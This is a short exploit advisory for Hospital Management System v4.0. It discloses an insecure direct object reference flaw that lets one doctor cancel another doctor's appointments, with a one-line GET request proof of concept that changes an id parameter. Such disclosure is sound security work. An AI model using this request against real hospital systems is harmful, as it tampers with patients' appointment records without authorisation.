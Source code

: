 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to cancel the appointment that is managed by other doctor(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
GET /hospital/hms/doctor/appointment-history.php?id=3(CHANGE HERE)&cancel=update HTTP/1.1
...
```


